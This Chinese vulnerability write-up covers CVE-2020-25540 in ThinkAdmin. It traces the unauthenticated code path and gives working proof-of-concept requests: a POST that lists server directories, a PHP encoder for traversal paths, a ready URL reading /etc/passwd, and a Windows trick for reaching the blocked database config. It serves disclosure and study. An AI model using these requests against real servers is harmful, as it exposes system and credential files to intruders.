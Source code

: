 # ThinkAdmin未授权列目录/任意文件读取(CVE-2020-25540)漏洞

### 0X00简介

> ThinkAdmin是一套基于ThinkPHP框架的通用后台管理系统,ThinkAdmin v6版本存在路径遍历漏洞。攻击者可利用该漏洞通过GET请求编码参数任意读取远程服务器上的文件。

### 0X01影响范围

> Thinkadmin ≤ 2020.08.03.01   v5（任意文件读取）   v6（列目录,任意文件读取）

```
查看版本https://ip/admin/login.html?s=admin/api.Update/version
```

![img](resource/Untitled/media/640-20201203205524089.png)

### 0X02漏洞复现

在`app/admin/controller/api/Update.php`中存在3个function，无需登录验证就能使用。

```
namespace
app\admin\controller\api;
use think\admin\Controller;
use think\admin\service\ModuleService;
use think\admin\service\SystemService;
```

#### 1.列目录漏洞

在node()方法中，直接将POST的rules和ignore参数传给了InstallService::instance()->getList()![img](resource/Untitled/media/640-20201203205523992.png)在vendor/zoujingli/think-library/src/service/InstallService.php中利用scanList()去遍历$rules数组![img](resource/Untitled/media/640-20201203205523991.png)继续跟进，在scanList()方法中调用scanDirectory()递归遍历目录下的文件，然后利用_getInfo()方法获取文件名和哈希值。![img](resource/Untitled/media/640-20201203205524006.png)![img](resource/Untitled/media/640-20201203205524059.png)![img](resource/Untitled/media/640.png)在整个过程中并没有进行任何过滤和认证，由此攻击者可以利用此漏洞获取服务器目录列表。

利用poc



```
POST /admin/login.html?s=admin/api.Update/node HTTP/1.1
Host: ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:81.0) Gecko/20100101 Firefox/81.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=4da326327c0b75fb074122a093e912a0
Upgrade-Insecure-Requests: 1
Content-Length: 21
Content-Type: application/x-www-form-urlencoded
Cache-Control: max-age=0

rules=%5B%22%2F%22%5D
```

![img](resource/Untitled/media/640-20201203205524165.png)

#### 2.任意文件读取漏洞

在app/admin/controller/api/Update.php中存在get()方法，对GET中的encode参数使用decode()方法进行解码。![img](https://mmbiz.qpic.cn/mmbiz_png/kTIZMBcJhwiayeZGCoN8fNeTVtK32NOd4SlLZzpJsiaapTbrn7OA1HBVTX3Dl1kRibicVto1cUlibvEnsoh0lFCmgbw/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)![img](resource/Untitled/media/640-20201203205523989.png)上面正好有个encode()方法，攻击时可以直接调用。![img](resource/Untitled/media/640-20201203205524086.png)继续看ModuleService::instance()->checkAllowDownload()，禁止下载数据库配置文件，name参数不能为database.php。![img](resource/Untitled/media/640-20201203205524082.png)跟进getAllowDownloadRule()函数。![img](resource/Untitled/media/640-20201203205524107.png)发现允许了以下路径。



```
config
public/static
public/router.php
public/index.php
app/admin
app/wechat
```

可以通过控制$name参数，实现任意文件读取，且在Linux中无法读取database.php，而window中可以利用database"php来绕过。读取的文件路径需要编码。

编码脚本：



```
<?php
$name="../../../etc/passwd";
for($i=0;$i<strlen($ename=iconv('UTF-8','GBK//TRANSLIT',$name));$i++)
{
  echo str_pad(base_convert(ord($ename[$i]),10,36),2,0,0);
}
?>
```



```
https://url/admin/login.html?s=admin/api.Update/get/encode/1a1a1b1a1a1b1a1a1b2t382r1b342p37373b2s
```

![img](resource/Untitled/media/640-20201203205524226.png)![img](resource/Untitled/media/640-20201203205524186.png)

参考链接：

https://github.com/zoujingli/ThinkAdmin/issues/244

